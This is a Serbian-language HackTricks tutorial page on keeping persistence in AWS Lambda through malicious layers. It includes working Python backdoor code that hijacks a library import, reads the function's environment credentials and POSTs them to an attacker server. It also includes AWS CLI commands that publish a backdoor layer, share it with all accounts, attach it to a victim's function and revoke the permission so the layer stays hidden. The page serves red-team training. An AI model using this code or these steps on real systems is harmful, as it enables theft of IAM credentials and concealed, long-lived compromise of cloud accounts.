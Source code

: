 # AWS - Lambda Layers Persistencija

{% hint style="success" %}
Naučite i vežbajte AWS hakovanje: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP hakovanje: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Pomozite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Lambda Slojevi

Lambda sloj je .zip arhiva koja **može sadržati dodatni kod** ili drugi sadržaj. Sloj može sadržati biblioteke, [prilagođeno izvršno okruženje](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), podatke ili konfiguracione fajlove.

Moguće je uključiti do **pet slojeva po funkciji**. Kada uključite sloj u funkciju, **sadržaj se izvlači u direktorijum `/opt`** u okruženju izvršenja.

Po **podrazumevanim podešavanjima**, **slojevi** koje kreirate su **privatni** za vaš AWS nalog. Možete odabrati da **podelite** sloj sa drugim nalozima ili da ga **učinite** javnim. Ako vaše funkcije koriste sloj koji je objavio drugi nalog, vaše funkcije mogu **nastaviti da koriste verziju sloja nakon što je izbrisan, ili nakon što vam je dozvola za pristup sloju opozvana**. Međutim, ne možete kreirati novu funkciju ili ažurirati funkcije koristeći izbrisanu verziju sloja.

Funkcije implementirane kao kontejnerska slika ne koriste slojeve. Umesto toga, pakujete svoje preferirano izvršno okruženje, biblioteke i druge zavisnosti u kontejnersku sliku prilikom izgradnje slike.

### Putanja učitavanja za Python

Putanja učitavanja koju će Python koristiti u lambdi je sledeća:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Proverite kako su **drugi** i treći **položaj** zauzeti direktorijumima gde **lambda slojevi** raspakuju svoje datoteke: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Ako napadač uspe da **ubaci zadnja vrata** u korišćeni lambda **sloj** ili **doda jedan** koji će **izvršavati proizvoljni kod kada se učita zajednička biblioteka**, moći će da izvrši zlonamerni kod pri svakom pozivu lambda funkcije.
{% endhint %}

Stoga, zahtevi su:

* **Proveriti biblioteke** koje su **učitane** od strane koda žrtve
* Kreirati **proxy biblioteku sa lambda slojevima** koja će **izvršavati prilagođeni kod** i **učitati originalnu** biblioteku.

### Prethodno učitane biblioteke

{% hint style="warning" %}
Kada sam zloupotrebljavao ovu tehniku, naišao sam na poteškoću: Nekim bibliotekama su **već učitane** u python okruženju prilikom izvršavanja vašeg koda. Očekivao sam da ću pronaći stvari poput `os` ili `sys`, ali **čak je i biblioteka `json` bila učitana**.\
Da bi se iskoristila ova tehnika upornosti, kod mora da **učita novu biblioteku koja nije učitana** prilikom izvršavanja koda.
{% endhint %}

Pomoću python koda poput ovog moguće je dobiti **listu biblioteka koje su prethodno učitane** unutar python okruženja u lambda funkciji:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
I ovo je **lista** (proverite da li su biblioteke poput `os` ili `json` već tamo)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
I ovo je lista **biblioteka** koje **lambda podrazumevano uključuje instalirane**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda sloj sa zadnjim vratima

U ovom primeru pretpostavimo da ciljni kod uvozi **`csv`**. Ići ćemo **da postavimo zadnja vrata za uvoz biblioteke `csv`**.

Da bismo to uradili, **kreiraćemo direktorijum csv** sa datotekom **`__init__.py`** u njemu na putanji koju učitava lambda: **`/opt/python/lib/python3.9/site-packages`**\
Zatim, kada se lambda izvrši i pokuša da učita **csv**, naša **`__init__.py` datoteka će biti učitana i izvršena**.\
Ova datoteka mora:

* Izvršiti našu payload
* Učitati originalnu csv biblioteku

To možemo uraditi sa:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Zatim, napravite zip sa ovim kodom na putanji **`python/lib/python3.9/site-packages/__init__.py`** i dodajte ga kao lambda sloj.

Ovaj kod možete pronaći na [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Integrisani payload će **poslati IAM kredencijale serveru PRVI PUT kada se pozove ili NAKON resetovanja lambda kontejnera** (promena koda ili hladna lambda), ali se mogu integrisati i **druge tehnike** kao što su sledeće:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Spoljni slojevi

Imajte na umu da je moguće koristiti **lambda slojeve iz spoljnih naloga**. Štaviše, lambda može koristiti sloj iz spoljnog naloga čak i ako nema dozvole.\
Takođe imajte na umu da je **maksimalan broj slojeva koje lambda može imati 5**.

Stoga, kako bi se poboljšala univerzalnost ove tehnike, napadač bi mogao:

* Backdoor-ovati postojeći sloj korisnika (ništa nije spoljno)
* **Napraviti** **sloj** u **svom nalogu**, dati **pristup korisničkom nalogu** da koristi sloj, **konfigurisati** **sloj** u Lambda korisnika i **ukloniti dozvolu**.
* Lambda će i dalje moći **koristiti sloj** i žrtva neće imati jednostavan način da **preuzme kod slojeva** (osim ako dobije rev šel unutar lambe)
* Žrtva **neće videti spoljne slojeve** korišćene sa **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Učite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Učite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
